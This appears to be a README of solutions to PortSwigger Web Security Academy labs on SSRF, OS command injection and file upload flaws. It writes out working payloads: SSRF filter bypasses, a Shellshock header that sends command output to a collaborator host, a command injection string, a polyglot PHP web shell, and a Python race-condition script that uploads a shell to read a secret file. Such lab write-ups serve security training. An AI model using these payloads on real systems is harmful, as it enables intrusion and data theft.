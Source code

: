 ## Server-side request forgery (SSRF) ✅
1. <b>Basic SSRF against the local server</b> - Go to one product from the home page and press `check stock`(intercept it with burp) send it to repeater and you will find a parameter named `stockApi` which has a url. In this url if we put `http://localhost/admin` and send the request we will see the admin panel. To solve this lab we have to put in `stockApi` param `http://localhost/admin/delete?username=carlos`
2. <b>Basic SSRF against another back-end system</b> - network pivoting send requests to intruder and `stockApi=http://192.168.0.$ip$:8080/admin` 
3. <b>SSRF with blacklist-based input filter</b> - `http://127.1/%2561dmin/delete?username=carlos`
4. <b>SSRF with filter bypass via open redirection vulnerability</b> - `/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`
5. <b>Blind SSRF with out-of-band detection</b> - Go to home page and press one of products while you intercepting the requests and you will see the `referer` header. After that go to `burp collaborator` and change the `referer` value to http://xxxxx.collaboratorburp.net and the lab is solved. 
6. <b>SSRF with whitelist-based input filter</b> - For this lab we have to get the access to admin panel and delete carlos account but its not the same like the old times. For the solution the first step is to go in one product and press `check stock` and pass this url into to `api parameter` `http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`
7. <b>Blind SSRF with Shellshock exploitation</b> - Solution for tihs labs is combination of the `Blind SSRF with out-of-band detection` and the `SSRF network pivoting`. First of all we have to intercept a requests when we send a get requests for a product and send it to `intruder` after that we can see `User-Agend` & `Referer` headers so far so good.
For exploitation part:<br>
<b>User-Agent header</b> - Delete the old string and paste this payload: <br>
`() { :; }; /usr/bin/nslookup $(whoami).4diew0hehvzuachcyn7t9rpax13s3gs.burpcollaborator.net` <br>
<b>Referer header</b> - Delete the old strings and put the ip `http://192.168.0.X:8080/` but and the X letter we have to put the $ symbols and in payload tab we have to choose `numbers` starting from 1 to 255 with step 1 and start the attack. After a few requests we can see our results in burpcollaborator.

## OS command injection
1. <b>OS command injection, simple case</b> - Go to `https://xxxx.web-security-academy.net/product?productId=x` and start intercepting from burp while pressing the check stock button. Send it to repeater and chain the `whoami` command at the end of productId=x `productId=333;whoami&storeId=1`
2. <b>Blind OS command injection with time delays</b> - 


## HTTP Host header attacks
1. <b>Basic password reset poisoning</b> - 
2. <b></b> - 
3. <b></b> - 
4. <b></b> - 
5. <b></b> - 
6. <b></b> - 

## File upload vulnerabilities ✅
1. <b>Remote code execution via web shell upload</b> - Try to upload just a php script with .php extension
2. <b>Web shell upload via Content-Type restriction bypass</b> - Try to change <b>content-type</b> from x-php to <b>image/png</b>
3. <b>Web shell upload via path traversal</b> - Change the <b>filename</b> from burpsuite intercept to <b>..%2fget_flag.php</b> and get the flag to /files/avatars/../get_flag.php
4. <b>Web shell upload via extension blacklist bypass</b> - Change the filename from <b>.php</b> extension to <b>.phtlm</b> extension and upload it
5. <b>Web shell upload via obfuscated file extension</b> - Intercept upload request and change the filename with extension <b>.php%00.png</b> - <b>Null byte technique</b>
6. <b>Remote code execution via polyglot web shell upload</b> - For this lab we have to use <b>exiftool</b> and one random .jpg or .png image. The exploitation part `exiftool -comment="<?php system('badstuff');?>" image_name.png or .jpg -o get_flag.php` after that a php file will created with get_flag.php name upload it and redirect into it to get the flag.
7. <b>Web shell upload via race condition</b> - At the lab description we can find a <b>hint</b> which has inside the source code of upload functionality.
Lets explain the code
```php
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}
```
"As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed. "
<br>
So I create a exploit with python multithreading,requests modules just to grab the flag.
```python
import requests
import threading

def upload_exploit():
	burp0_url = "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net:443/my-account/avatar"
	burp0_cookies = {"session": "sbjdev7ZM9sCuhQ2irsKrh0SjX7wddRT"}
	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net/my-account", "Content-Type": "multipart/form-data; boundary=---------------------------35393652352872705425704695024", "Origin": "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Te": "trailers", "Connection": "close"}
	burp0_data = "-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"avatar\"; filename=\"get_flag.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php system('cat /home/carlos/secret')?>\n\r\n-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"user\"\r\n\r\nwiener\r\n-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"csrf\"\r\n\r\nHEhkjls5YL1vQsQRNl2qJrpSAqeAsGMK\r\n-----------------------------35393652352872705425704695024--\r\n"
	requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


def get_flag():
	endpoint = "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net:443/files/avatars/get_flag.php"
	r=requests.get(endpoint)
	print(r.text)
	

t1 = threading.Thread(target=upload_exploit, name='t1')
t2 = threading.Thread(target=get_flag, name='t2')  
  
t1.start()
t2.start()
  
t1.join()
t2.join()

```

 [More tricks about file upload vulnerabilities](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#upload-tricks)
